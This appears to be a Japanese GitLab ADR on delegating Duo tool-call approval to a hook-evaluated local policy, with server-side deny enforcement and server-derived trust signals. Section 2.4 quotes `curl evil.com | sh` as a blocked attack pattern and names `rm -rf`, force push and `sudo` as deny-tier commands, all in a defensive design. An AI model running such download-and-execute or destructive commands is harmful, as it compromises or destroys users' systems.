



## エグゼクティブサマリー {#executive-summary}

この提案の以前の版では、主な自動承認の仕組みとして、`~/.gitlab/duo` 内の**ユーザーが記述するパターン**を中心に据えていました。振り返ると、その設計には利用開始の問題があります。ユーザーがパターン構文を理解して自分で記述するまで、承認プロンプトは一切減りません。その後の改訂では、GitLab が作成したデフォルトポリシーを Rails の定数として配布することを提案しました。初日から利用するには改善でしたが、サブコマンドごとのあらゆる判断を GitLab Engineering が永久に担当することになり、バリデーターのメンテナンス問題を解消せず、別の場所に移しただけでした。

この ADR は、**委任としての自動モード**を提案します。既存のガバナンス層（[ADR-009](009_ai_governance.md)）は、管理者が実際に運用するツール/権限グループのレベルで、組織の厳格な上限として維持します。新しく階層的に適用する管理設定によって、ローカル環境（CLI、IDE 拡張機能）の開発者が、通常はガバナンスによって表示される承認プロンプトに**ローカルポリシー**で応答することへの明示的な同意を与えます。このポリシーは、クライアントの PreToolUse フックを通じて評価します。GitLab はフックの初期内容としてデフォルトポリシーを配布し、お客様がそれを所有して上書きできます。

- **フェーズ 0（本 ADR）:** 委任の同意設定、フックで評価するデフォルトポリシー（初日にユーザーが記述する必要はない）、サーバー側での `deny` の強制適用。
- **フェーズ 1（速やかに追従、エピック [#21877](https://gitlab.com/groups/gitlab-org/-/work_items/21877)、スコープを再定義）:** 同じフックとマージロジックを通じて、フェーズ 0 のデフォルトの上にユーザーが記述したポリシーを重ねます。別の仕組みではありません。

この方針を安全に明言できる不変条件は、**ローカルポリシーは `ask` に応答できますが、管理者の `deny` を上書きすることは決してできない**ということです。拒否はサーバー側で強制適用し、常に維持します。ローカルポリシーは常に*厳しくする*ことができます（ガバナンスが許可する場合でも、フックの `deny` は有効です）。

## 1. 問題の定義 {#1-problem-statement}

自動モードが提供する価値は、「ほとんどのツール呼び出しに人間の介入が不要になる」ことです。現在、それを実現する方法は 1 つしかありません。管理者がグループ全体に対し、`run_commands`/`use_git` 権限グループを常時許可に設定することです。このアーキテクチャは、まさにその安全でない状態を防ぐためにあります。ガバナンスルールは意図的に粗い粒度です（あるレジストリエントリは `run_command` 全体を、別のエントリは `run_git_command` 全体を対象にします）。そのため、そのレベルの「許可」では `git status` と `git push --force` を区別できません。

以前のユーザー記述型の設計は粒度を改善しましたが、利用開始の問題は解決しませんでした。まだ `~/.gitlab/duo` ファイルが存在しないため、自動モードの初日は、自動モードをオフにした状態と同じに見えました。GitLab が作成する定数の改訂案は利用開始を改善しましたが、所有責任の問題は解決しませんでした。今後のサブコマンドのティア判断（`cargo` は？`terraform` は？新しい `npm` の操作は？）は、すべてその定数を所有するチームが永久に担当することになります。これは、バリデーターモデルで AppSec が 5 つの回避方法を発見する原因となった、際限のない管理負担と同じです（[ADR-011 §1](011_command_validator_deprecation.md)）。

これとは別に、位置引数に関する不足（[ADR-011 §2.2](011_command_validator_deprecation.md) — `*` はフラグインジェクションを防ぎますが、パッケージ名や URL のような危険な値は防ぎません）には、延期された引数レベルのガバナンス（`ai_tool_rules.tool_arguments` に対する glob/正規表現の一致判定）を挙げることで暫定的に対応していました。これは、2 つの理由で適切な解決策ではありません。

1. **時期が未定。** 引数レベルのガバナンスには、新しいリゾルバーのアルゴリズム（具体性に基づく優先順位）、GIN インデックス、管理者に glob/正規表現の意味を理解してもらう UI が必要です。この ADR のどの作業よりも大きな負担です。
2. **担当者が不適切。** 実装したとしても、管理者に、組織全体の引数ごとの許可/拒否パターンを記述するよう求めることになります。管理者は「このツールをブロックする」という粒度で運用するべきです（ガバナンスはすでにそれを行っています）。コマンド引数ごとのポリシーは、ユーザーとワークフローごとの関心事です。

委任は、この 3 つの課題を同時に解決します。利用開始（フックとともにデフォルトポリシーを配布し、初日から有効にする）、所有責任（お客様が自身のポリシーを所有し、配布するデフォルトには AI Clients チームではなく、定期レビューを行う専任のセキュリティ方針の担当者を置く）、担当者の判断レベル（管理者はグループレベルで同意し、開発者は引数レベルで調整する）です。

## 2. 決定 {#2-decision}

管理者にもユーザーにもパターンの記述を求める前に、同意設定とフックで評価するデフォルトポリシーをリリースします。

### 2.1 新しく導入するもの {#21-whats-new}

- **階層的に適用する委任設定**（仮称 `local_policy_tool_approval_enabled`、デフォルトは**オフ**、標準の `lock_*` 管理者強制適用列を持ち、`tool_approval_for_session_enabled` と同じ形式）。意味は、ローカル環境ではガバナンスの `ask` に対して、人間へのプロンプトの代わりに開発者のローカルポリシーが応答することに、管理者が明示的に同意するというものです。これは利便性ではなく同意であり、UI の文言で明確にする必要があります。以前、延期されたガバナンスのケイパビリティとして追跡していたユーザーレベルの自動承認へのオプトインを、一般化した形で実現します（「管理者がユーザーレベルの設定のロックを解除し、ユーザーが管理者ポリシーの範囲内で自身の設定を行える」。§7 を参照）。
- **クライアントの PreToolUse フックで評価する、配布されるデフォルトポリシー**（[gitlab-lsp MR !3610](https://gitlab.com/gitlab-org/editor-extensions/gitlab-lsp/-/merge_requests/3610)は**満たすことが必須の前提条件**で、現在ドラフトのレビュー中）。ポリシーは、エピック #21877 ですでに確定したスキーマ（各ティアに `{ tool, patterns? }`）を使用する、バージョン管理された 3 ティア（`allow`/`ask`/`deny`）のルールセットです。クライアントとともに配布し（静的かつバージョン管理され、サーバーのロールアウトとは独立した LSP リリースで元に戻せる）、専任のセキュリティ方針の担当者が定期的にレビューして保守します（v0 のリリース前に担当チームを確定し、初期ティアの承認をその引き継ぎに含めます）。お客様は上書きできます。それが目的です。
- ツール呼び出し承認の経路における**サーバー側の `deny` の強制適用**（現在、この経路では `deny` をサーバー側で永続化も強制適用もしていません。§4.1 を参照）。デフォルトポリシーの `deny` ティアをサーバー側に登録し、クライアントを回避された場合、古い場合、存在しない場合でも、拒否を維持します。
- **ガバナンスの強制適用の強化**（§4.1）。委任の仕組みは、ガバナンスが実際にサーバー側の上限になっていることに依存します。現在、ローカル環境ではそうなっていません。クライアントが独自の権限を指定すると、ワークフロー作成時にガバナンスの解決処理を完全に省略し、ツールごとのルールを AI Gateway に渡す JWT クレームは、ハードコードされた `web` 環境で解決するため、`local_access` のルールが届きません。両方の解消は、背景的な後処理ではなく、本 ADR の前提作業です。

### 2.2 明示的に延期するもの（と、それでよい理由） {#22-whats-explicitly-deferred-and-why-thats-fine}

- **ユーザーが記述するローカルポリシー**（エピック #21877、スコープを再定義）: フェーズ 1 でフェーズ 0 のデフォルトの上書き層として導入し、同じフック、同じマージ関数、同じセッション承認への変換経路で処理します。作り直しはありません。注記: エピックの元のファイル配置 `~/.gitlab/duo` は、フックの設定規約（!3610 に従い、ユーザーレベルは `~/.config/duo/`、プロジェクトレベルは `.gitlab/duo/`）に置き換わります。ユーザー向けのポリシー設定箇所は 2 つではなく 1 つです。
- **引数レベルのガバナンス**（`ai_tool_rules.tool_arguments` に対する glob/正規表現の一致判定、GIN インデックス、具体性に基づく優先順位。§7 を参照）: どちらのフェーズにも必要ありません。後からリリースする場合は、ローカルポリシーの上に*追加*する管理者の上限となり、前提条件にはなりません。
- **値を制約する認可**（例: `curl` のドメイン許可リスト、`npm install` のパッケージ許可リスト）: [ADR-011 §2.2](011_command_validator_deprecation.md)で受け入れている位置引数のトレードオフと同様、未解決の不足です。この ADR はそれを解消しませんが、悪化させることもありません。配布するデフォルトではこれらを `ask` に維持します（バリデーターモデルが強制していた内容をそのまま再現するため、デフォルトで弱まるものはありません）。緩和はすべて、意図的で同意済みの、監査で主体を特定できるお客様の判断となります。
- **サンドボックス化/実行の隔離**: 比較対象となる各製品は、誤った `allow` が壊滅的な結果を招かないようにする独立した第 2 の制御として、隔離を扱っています。現在 GitLab に同等のものはありません。ここでは対象外ですが、別の作業として追跡する必要があります。

### 2.3 Gateway のパターン提案の削除 {#23-removing-gateway-pattern-suggestions}

フェーズ分けとは独立して、`ChatAgent._suggest_patterns()`（AI Gateway）と、クライアント側でそれを利用する箇所は、今すぐ削除するべきです。これは対話的な承認 UI に表示するために glob 文字列を整形するだけで、一致判定も検証も行っていませんでした。フェーズ 0 とフェーズ 1 のどちらにも、クリックするパターンを提案する UI は必要ありません。両リポジトリで試験的に削除し（§5）、実際の承認/一致判定の経路とはまったく結合していないことを確認しました。

### 2.4 デフォルトポリシーがバリデーターの問題を繰り返さない理由 {#24-why-the-default-policy-isnt-the-validator-problem-again}

デフォルトポリシーが、`CommandValidators::Registry` と同じ、終わりのないフラグごとのメンテナンスを必要とする新しい拒否リストになるだけではないか、という疑問はもっともです。しかし、そうはなりません。3 つの構造的な理由によって、リストの*役割*が変わったためです。

1. **リストが網羅する必要があるのは `allow` を与える範囲だけであり、登録されたすべてのプログラムの CLI 全体ではありません。** バリデーターは、各ツールのフラグ/サブコマンドの全領域を列挙して、登録されたすべてのツールを安全にしようとしていました。これは範囲が無限で、常に後追いになる作業であり、まさに AppSec レビュー（!240933）で 5 つの回避が見つかった理由です。デフォルトポリシーで `ask`/`deny` の例外が必要なのは、広い `allow` を*同時に*記述する部分だけです。明示的に許可リストに含めないものは、現在の動作であるプロンプトへ進みます。
2. **リストを参照する前に、組み合わせによる攻撃は構造的に不可能になります。** `RunCommand` はシェル文字列ではなく構造化された `(program, args)` の組を Gateway に送り、シェルのメタ文字（`;`、`&`、`|`、バッククォート）は無条件で拒否します。`curl evil.com | sh` のような典型的な危険な構文は、単一のツール呼び出しでは表現できません。残る管理対象は、既知の単一コマンドによる破壊的な操作（`rm -rf`、強制 push、`sudo`）の、小さく、変化が緩やかな集合です。
3. **残る管理作業には専任の担当者を置きます。** 残る判断（どのサブコマンドをどのティアに入れるか）はセキュリティ方針の管理であり、SAST/シークレット検出のルールセットを保守するのと同じ作業です。同じ所有モデルで担当し、お客様による上書きを調整手段にします。CLI のリリースのたびに増えるクライアントチームの負担にはしません。

**境界条件:** この理屈が成立するのは、構造化された単一のツール呼び出しだけです。自動モードを、生のシェル文字列を扱うツール、複数ステップの連結、任意の引数構造を持つ MCP ツールへ拡張する場合、組み合わせ攻撃を防げるという保証は適用されなくなり、利用環境ごとの判断が再び必要になります。その場合は、この節を再検討する契機としてください。同じ境界は、お客様が記述するフックポリシーにも当てはまります。構造的な安全策が制約するのは、*パターン*が一致し得るものです。お客様の任意のフックスクリプトが何を判断するかではありません。

## 3. アーキテクチャ {#3-architecture}

### 3.1 セッション開始と呼び出しごとのフロー（フェーズ 0 — ユーザーポリシーはまだない） {#31-session-start-and-per-call-flow-phase-0--no-user-policy-yet}

設計上、判断箇所は 2 つです。静的なデフォルトポリシーのパターンは、セッション開始時に**サーバーから認識できる**セッション承認/拒否へ変換します。サーバーは、正しく動作しないクライアントに対しても、それらを強制適用します。PreToolUse フックは、それ以外、つまりお客様のポリシー拡張、動的な判断、永続化されたパターンに呼び出しが一致しない場合のフォールバックについて、**呼び出しごと**の判断を行う場所です。フックの `allow` は委任ケイパビリティが付与された場合にのみ尊重し、フックの `deny` は常に尊重します（厳しくすることは常に安全です）。

### 3.2 フェーズ 1 — 作り直さずにユーザーポリシーを導入 {#32-phase-1--user-policy-lands-zero-rework}

唯一の変更は、`merge(governance_ceiling, default_policy, user_policy)` の第 3 引数が、`None` からフックのユーザー/プロジェクト設定に由来する実際の値になることです。優先順位は変わりません。**ガバナンス → deny → ask → allow → デフォルトポリシー → プロンプト。** 下流のミューテーション、`CommandPatternMatcher`、サーバー側の拒否の強制適用、フックのコントラクトは、すべて変更しません。

### 3.3 サーバーが導出する独立した 2 つの軸: execution_mode と surface {#33-two-orthogonal-server-derived-axes-execution_mode-and-surface}

この ADR で委任の基盤となるガバナンスの上限が信頼できるのは、解決処理の基になる事実をクライアントが選べない場合だけです。**サーバーが導出する独立した 2 つのシグナル**があり、この設計では一方を他方へ統合せず、分離して維持します。

- **`execution_mode`（2 値: `client` / `background`）: 信頼と対話性のシグナル。** `client` は人間がいて対話できること（CLI、IDE、対話的な Web UI）、`background` は無人であること（CI、サービスアカウントによる実行）を意味します。これは**権限の制限**を制御します。クライアントが指定した権限を信頼して制限しないのは、それが安全な利用環境だけです。これは**信頼性に関わる**ため、**サーバーが導出する**必要があります。クライアントが自分の実行モードを申告できれば、自分に適用するルールも選べてしまいます。
- **`surface`（3 値: `web` / `local` / `background`）: 適用するポリシー列。** `Ai::ToolRule` は 3 つのアクセス列（`web_access`、`local_access`、`background_access`）を持ち、それぞれ `allow`/`ask`/`deny` を取ります。ただし `background_access` は、無人の環境には `ask` に応答する人間がいないため、`allow`/`deny` のみに制限します。`access_for(surface)` は利用環境を対応する列にマッピングします。これも**信頼性に関わる**ため（利用環境を偽ると、より緩い列を選べる）、**サーバーが導出する**必要があります。

**設計上の決定: 両方の軸を維持し、区別したまま、両方をサーバーが導出する。** `execution_mode` は 2 値（信頼/制限）のままとします。`surface` は 3 値のままとし、Web 環境が CLI/IDE（`local_access`）とは別の、独立した `web_access` 列を維持できるようにします。Web を `local_access` にまとめることは**しません**。また、利用環境の選択を 2 値の `execution_mode` に集約することも**しません**。対話的な Web UI は、`client`（execution_mode。信頼/制限は対話的な環境として動作）**かつ** `web`（surface。`ask` をサポートする `web_access` に結び付く）です。この 2 つのシグナルは異なる問いに答え、異なる箇所で使用されます。

| 利用環境 | `execution_mode`（信頼/制限） | `surface`（ポリシー列） |
|---|---|---|
| CLI / IDE | client（対話型） | `local` → `local_access` |
| 対話的な Web UI | client（対話型） | `web` → `web_access`（`ask` をサポート） |
| CI / サービスアカウント | background（無人） | `background` → `background_access`（`ask` → `allow`） |

**Web UI ガバナンスの実装上の注意点。** 現在、対話的な Web UI については、両方のシグナルがまだ完全にはサーバー由来でない入力に依存しています。対話的な Web UI は、偽装可能なクライアントの `environment` 文字列や `caller_can_execute` に依存せず、サーバー側で `web` の利用環境**かつ** `client` の execution_mode として導出できる必要があります（Web の経路では `caller_can_execute: false` となるため、これを使うと `background` に誤分類されます）。Web UI について両方のシグナルをサーバー由来にする作業は、Web UI ガバナンスの後続作業であり、この ADR で最初に提供する CLI/IDE 環境の阻害要因ではありません。

**命名上の落とし穴（コードで検証済み）。** 現在の `GovernanceSurface` では、`environment: web`/`ambient` は*バックグラウンド*環境を表し（ここでの `web` は従来の `ambient`）、対話的な Duo の Web UI では**ありません**。対話的な Duo Chat は `chat`/`chat_partial` として到着し、現在は `local_access` にマッピングされます。つまり「web」は多義的です。`web_access` *列*は対話的な Web UI 用を意図していますが、`environment: web` *文字列*は現在、従来の ambient/background の経路を示します。キーの付け替え（§3.4）ではこれを解消し、対話的な Web UI が、ambient を表す `environment: web` ではなく、サーバーが導出した利用環境に基づいて `web_access` を使用するようにする必要があります。

### 3.4 実行モードの基盤（サーバー由来、永続化） {#34-the-execution-mode-substrate-server-derived-persisted}

上記の軸のモデルには、実行モードについてサーバーが管理する唯一の情報源が必要です。2 つの要素がそれを提供します。

- **封じられた分類（リリース済み）。** `Ai::DuoWorkflows::FlowExecutionAuthorizer` は、クライアントの自己申告ではなく、**エンドポイント + リクエストの形**（`caller_can_execute`、`start_workflow`、`item_consumer_id`）から `Classification`（`CLIENT` / `BACKGROUND`）を導出します。`Classification.new` は private なので値を偽造できず、`CreateWorkflowService` は信頼する前に型を再確認します。[gitlab!248339](https://gitlab.com/gitlab-org/gitlab/-/merge_requests/248339)（マージ済み）で提供し、`duo_client_executed_flow_governance` で制御します。これが、サーバー由来の `execution_mode` シグナルを構造で表したものです。
- **永続化する列（進行中）。** [gitlab!250574](https://gitlab.com/gitlab-org/gitlab/-/merge_requests/250574)は、`duo_workflows_workflows` に永続化する `execution_mode` 列（列挙型 `{ client: 1, background: 2 }`、`executed_by_*` 述語、`execution_unclassified?`）を追加します。封じられた分類から書き込み、クライアントのパラメータからは除外します。これにより、信頼できる `execution_mode`（信頼/制限のシグナル）を永続化し、下流のすべての箇所が、再導出したり `environment` を信頼したりせず、その値に基づいて権限を制限できるようにします。

**現在の稼働状態。** `Ai::ToolRules::GovernanceSurface.for(...)` は、すでに 3 値の `surface` を解決しており、`web_access` もすでに稼働中の列です。`environment: web`/`ambient` は通常、`:web` → `web_access`（`ask` をサポート）にマッピングされます。**ただし**、バックグラウンドのフラグがオンで、フローが許可リストに入っている場合は、`:background` → `background_access`（`ask` → `allow`）にマッピングされます。`ide`/`chat`/`chat_partial` は `local_access` にマッピングされます。問題は、この 3 値の利用環境が、まだ**クライアントが指定した `environment` 文字列**から選択されることと、§3.3 の命名上の落とし穴のとおり、現在の `environment: web` が対話的な Web UI ではなく従来の ambient/background の経路を表すことです。

**追跡対象の作業としてのキーの付け替え（[gitlab#618761](https://gitlab.com/gitlab-org/gitlab/-/issues/618761)）。** キーの付け替えで、利用環境の選択を 2 値の `execution_mode` に集約することは**しません**。既存の**3 値の利用環境の選択をサーバー由来にし**（偽装可能なクライアントの `environment` への依存を除去）、`execution_mode` は**信頼に基づく権限制限**に使用します。`web_access` は稼働中の独立した列として維持します。対話的な Web UI は、偽装可能なクライアントの `environment` や `caller_can_execute` を通じてではなく、サーバー側で `web` の利用環境（`web_access` に対応）と、別途 `client` の execution_mode（制限用）として導出できる必要があります。これにより、残っている列選択の抜け道をふさぎます。作業は、!250574 が永続化する `execution_mode` を導入した後に行います。それまでは、「local で拒否」の強さは、クライアントが `environment` を正直に申告するかどうかに依存します（`environment` が偽装された、または存在しない場合の失敗は、*制限されていない* Web の経路への逃避という、最悪の方向になります）。

キーの付け替え時に解消するべき関連する構造的リスクとして、利用環境の解決処理が現在、`create_workflow_service`、`update_agent_privileges_service`、`workflow_context_generation_service`、`workflows.rb` に重複して存在し、それぞれが独自の `|| :web` フォールバックを持っています。サーバーが導出する単一の判断元（ワークフローからの surface + execution_mode、クライアントの `environment` パラメータなし）に統合し、新しい呼び出し箇所が制限を忘れたり、誤った列を選んだりできないようにします。

## 4. リポジトリ別の実装計画 {#4-implementation-plan-by-repo}

各コードベースの直接調査（以下のファイル参照を確認してください）に基づいており、推測ではありません。

### 4.1 `gitlab`（Rails モノリス） {#41-gitlab-rails-monolith}

- **ガバナンスの回避: 解消済み（[gitlab!249463](https://gitlab.com/gitlab-org/gitlab/-/merge_requests/249463)でリリース）。** 以前は、クライアントが `agent_privileges` を指定すると `CreateWorkflowService#resolve_agent_privileges` が早期リターンし、CLI で作成したワークフローではガバナンスの解決処理を完全に省略していました。また、`tool_access_policies` JWT クレームの呼び出し箇所は `surface: :web` をハードコードしていたため、`local_access` のルールが AI Gateway に届きませんでした。!249463 は `Ai::ToolRules::GovernanceSurface`（利用環境の選択）を導入し、`Ai::ToolRules::ResolutionService` を通じて解決するようにし、`clamp_client_privileges` を追加しました。これにより、クライアントが指定した権限をそのまま信頼せず、常に解決します。両方とも `duo_workflow_local_tool_governance`（ローカル環境）と `duo_workflow_background_tool_governance`（バックグラウンド）で制御します。**残っている未解決の問題:** `GovernanceSurface` は、*どの列*を適用するかを、まだクライアントが申告する `environment` 文字列に基づいて決めます（§3.4 を参照）。Web 環境は依然として制限処理から早期リターンします（`clamp_client_privileges` は Web の場合に早期リターン）。そのため、`environment` の偽装や欠落によって、制限されていない Web の経路へ逃れます。ローカル環境のガバナンスの GA を妨げているのは、すでにリリース済みのこの制限ではなく、§3.4 のキーの付け替えです。
- **新しい階層適用の設定**: `local_policy_tool_approval_enabled`（+ `lock_*`）。デフォルトはオフで、`tool_approval_for_session_enabled` に完全に従います（`ee/app/models/ee/namespace_setting.rb`、`app/models/concerns/cascading_namespace_setting_attribute.rb`）。GitLab Duo の構成ページに表示します（ガバナンスページではありません。ガバナンスは管理者がルールを書く場所、構成はクライアントとそのルールの関わり方に同意する場所です）。既存の `compute_server_capabilities` フィルター（`ee/lib/api/ai/duo_workflows/workflows.rb`）を通じて、`local_policy_tool_approval` ケイパビリティ文字列としてクライアントへ渡します。これは現在 `tool_call_approval`/`tool_call_pattern_approval` を制御するのと同じ仕組みです。
- **変更せず再利用**: `Ai::DuoWorkflows::CommandPatternMatcher`（`ee/app/models/ai/duo_workflows/command_pattern_matcher.rb`）。フラグインジェクションのルール（`rejects_flag_target?`/`flag_token?`）とシェルメタ文字の拒否（`Workflow#command_safe_for_pattern_approval?` 内の `SHELL_METACHARACTERS` チェック）は、まさに [ADR-011](011_command_validator_deprecation.md)が記述する安全策であり、`ToolCallApprovals#approved?`（`ee/app/models/ai/duo_workflows/workflow.rb:260-285`）から呼び出されます。第 2 の一致判定エンジンは不要です。
- **新規: サーバー側の拒否。** 現在、`UpdateDuoWorkflowToolCallApprovals` は*承認*を追加するだけで、この経路のどこにも `deny` 引数や永続化された拒否状態がありません（`ee/app/services/ai/duo_workflows/update_tool_call_approvals_service.rb`、`ToolCallApprovals#approved?` で確認済み）。ミューテーションに `action` 列挙型（`allow`/`deny`）を、`ToolCallApprovals` に並列の `denied?` チェックを追加し、ツール実行経路で `approved?` の前に `denied?` をチェックします。これにより、デフォルトポリシーの `deny` ティアを無視するクライアントにも強制適用できます。
- **監査**: 既存の `duo_tool_call_approved` のパターン（`Gitlab::Audit::Auditor`、`ee/config/audit_events/types/`）を、`duo_tool_call_denied` と `duo_tool_call_auto_approved` で拡張します。自動承認イベントには、**判断元の帰属情報**（ポリシーによる承認と、そのポリシー層: 配布されたデフォルト、ユーザーポリシー、フック、または人間による承認）を含める必要があります。これにより、管理者がアクティビティをレビューする際、人間が行わなかった承認を正確に把握できます。帰属情報の語彙は、リリース済みの `ApprovalSource` 列挙型（`USER_EXPLICIT`、`PRETOOLUSE_HOOK`、`AUTO_MODE`、`PREAPPROVED_CONFIG`、`SESSION_APPROVAL`。`approval_source` フィールド）で、gRPC のコントラクトで伝達します（Layer-1 の帰属情報の一連の変更、マージ済み）。**注意点と不変条件:** クライアントが報告する `ApprovalSource` 値は情報提供のみを目的とし、サーバー側では検証しません。サーバーが生成するのは `SESSION_APPROVAL` だけです。これらが安全なのは、*これらを条件に分岐するものが何もない*ためです。制御するのはサーバーのツールセットと Rails の承認チェックです。本 ADR では、`AUTO_MODE`/`PRETOOLUSE_HOOK` が判断を制御することを禁止します。判断元ごとの動作が必要になった場合は、まず判断元をサーバー由来の値にする必要があります。**L2（次の段階の監査の完全性）:** 現在、`approval_source` はストリーミング承認イベントにしか含まれていません。これを永続化された `ai_tool_invoked` イベント（gitlab#603370 フェーズ 2）にも渡すことで、通知なしの再利用やサーバー側でのスキップを、アプリ内の監査 UI に表示できます。

### 4.2 `gitlab-lsp` {#42-gitlab-lsp}

- **満たすことが必須の前提条件**: PreToolUse フック（MR !3610、ブランチ `db/pretool-hooks`、ドラフトのレビュー中。`packages/lib_hooks/src/` を `tool_approval_handler.ts` に接続）。フックのコントラクト（終了コード 0 + JSON の判断、終了コード 2 = 拒否、タイムアウト = 意見なし。優先順位は deny > allow > ask）は、本 ADR の基盤となる呼び出しごとのポリシー判断箇所です。この MR に追加する委任の変更点は、フックの `allow` を `local_policy_tool_approval` サーバーケイパビリティで制御すること（ケイパビリティがなければ `allow` を `ask` に格下げし、`deny` と `ask` は制御不要）と、承認テレメトリに判断元の帰属情報を追加することです。
- **新しいケイパビリティ**: `local_policy_tool_approval`。`supportsPatternApprovals`（`packages/lib_tool_approval/src/capability_checker.ts`）に完全に従います。
- フックの初期ポリシーとして、**デフォルトポリシーをクライアントとともに配布します**。静的かつバージョン管理され、サーバーのロールアウトとは独立した LSP リリースで元に戻せ、ネットワーク通信の往復が発生する前から利用可能です。リリース時に、担当チームの正式なソースから取り込みます（固定バージョンの更新がレビューのチェックポイントです）。誤ったポリシーへの緊急対応手段は、ポリシーのホットフィックスではなく、サーバー側のケイパビリティフラグです。同意をオフにすると、次のワークフロー作成時にすべてのクライアントが人間への `ask` に戻ります。
- **変更せず再利用**: `persistPatternApprovalForSession()`（`packages/lib_tool_approval/src/persistence.ts`）。デフォルトポリシーの `allow` エントリは、手動で承認したパターンとまったく同じ呼び出しで変換します。新しいミューテーション形式はありません（`action: deny` 列挙型は既存のものを拡張します）。
- **新しいマージ関数**: `packages/lib_tool_approval/src/policy_merge.ts`。`(governancePolicy, defaultPolicy, userPolicy)` を受け取ります。フェーズ 0 では `userPolicy` なしで呼び出します。フェーズ 1 では、この関数のシグネチャや変換経路を変更せずに、フックのユーザー/プロジェクトポリシー設定を接続します。
- **IDE/webview はクライアントのロールアウトのフェーズ 2 であり、設計の不足ではありません**: `lib_hooks` は LSP コア内にあり、IDE 拡張機能でもローカルで動作します。不足しているのは、webview の承認フローを同じフックへの問い合わせに接続する部分です。再設計するのではなく、延期しています。

### 4.3 `gitlab-ai-gateway` {#43-gitlab-ai-gateway}

- ここに新しい一致判定ロジックはありません。Gateway が一致判定を担当したことはなく、GraphQL を通じて Rails に委任し（`ToolsRegistry.approval_required()`、`duo_workflow_service/components/tools_registry.py:423-508`）、真偽値の結果をセッションごとにキャッシュしていることを確認しました。この動作は完全にそのまま維持します。必要なのは、§4.1 の新しい拒否シグナルを伝えるために、レスポンスの形を真偽値から 3 状態（`allow`/`ask`/`deny`）へ拡張することだけです。
- Rails の呼び出しもパターンマッチングもまったくない、第 2 の独立したツール名だけの承認経路（`agent_platform/v1/components/agent/nodes/tool_approval_request_node.py`、`Toolset.approved()`）が存在することを確認しました。ここには提案が接続されたことはなく、本 ADR のための変更も不要です。フェーズ 0 のロールアウト中に不要なコードと誤認されないよう、ここに記載しています。

### 4.4 テレメトリ {#44-telemetry}

アーキテクチャを変更せず段階的に追加できるよう、今の段階で 4 つのフックポイントを設計します。`duo_tool_approval_decision`（判断 + **判断元**: 人間 / 配布されたデフォルト / ユーザーポリシー / フック + 一致したパターン）、`duo_tool_governance_override`（ガバナンスが設定への一致を上書きした）、`duo_tool_config_denied`、`duo_tool_config_loaded`（パターン数、検証エラー）です。これらは、フェーズ 1 のリリース後に追跡する価値のある 4 つのメトリクスを支えます。パターンごとの自動承認率、手動上書き率（パターンが一致するはずなのにプロンプトを表示した場合。デフォルトポリシーが慎重すぎる兆候）、自動モードでのガバナンス拒否率、設定のパターン数の分布（広すぎる設定や狭すぎる設定を検出）です。

## 5. Gateway のパターン提案の削除 — 検証済みの削除/再利用リスト {#5-removing-gateway-pattern-suggestions--verified-removalreuse-lists}

使い捨てのワークツリーで試験的に削除して検証しました（すべてのテストを再実行し、コミットは作成していません）。

**`gitlab-ai-gateway` — 安全に削除できるもの:**

- `ChatAgent._suggest_patterns()` とそのモジュール定数（`duo_workflow_service/agents/chat_agent.py`）
- `ToolInfo.suggested_patterns` フィールド（`duo_workflow_service/entities/state.py`）
- `test_chat_agent.py` と `test_notifier.py` 内の関連するテストクラス/フィクスチャ

**`gitlab-ai-gateway` — 維持する必要があるもの（自動モードはここに接続）:**

- `ToolsRegistry.approval_required()`、`is_preapproved()`、`_approved_cache`、`TOOL_CALL_APPROVED_QUERY` — 実際の判断箇所。
- `contract.proto` の `Approval`/`Approval.Approved`/`Approval.Rejected` — `suggested_patterns` がこのコントラクトの一部だったことはなく、ここに変更はありません。
- `agent_platform/v1` のツール名だけの経路 — 変更せず、無関係です。

**`gitlab-lsp` — 安全に削除できるもの:**

- `getApprovalOptions()` 内の `suggested_patterns` を読み取るブロック（`chat_message_helpers.js`）
- `ToolInfoSchema.suggested_patterns`（`packages/lib_workflow_api/src/ui_chat_log.ts`）
- 関連する正常系のテスト

**`gitlab-lsp` — 維持する必要があるもの:**

- `capability_checker.ts`、`persistence.ts`、`update_tool_call_approvals.ts` — これらが提案フィールドに依存したことはありません。
- `getApprovalOptions()` 内の、1 回限りの承認 / セッション中の承認という基本的な UI ロジック。
- **設計レビューでの確認事項:** `supportsPatternApprovals` は、提案の表示だけでなく、一般的なパターン承認のケイパビリティを制御しています。このフラグ自体の用途を変えたり削除したりする前に、プロダクト側に確認してください。

## 6. ロールアウト {#6-rollout}

| フェーズ | リリースするもの | 必要条件 |
|---|---|---|
| 0（本 ADR） | 委任の同意設定 + フックで評価するデフォルトポリシー + サーバー側の拒否 | PreToolUse フック（gitlab-lsp !3610）がマージ済みであること。ガバナンス回避を防ぐ制限がリリース済みであること（!249463、フラグ `duo_workflow_local_tool_governance` / `duo_workflow_background_tool_governance`）。実行モードの基盤が導入済みであること（`duo_client_executed_flow_governance` 下の封じられた分類 !248339、永続化された `execution_mode` !250574）と、`GovernanceSurface` がそれに基づくようキーを付け替えていること（§3.4）。初期デフォルトポリシーを担当チームが承認していること。ADR-006/009 の基盤と ADR-011 の構造的な安全策を変更せず再利用します |
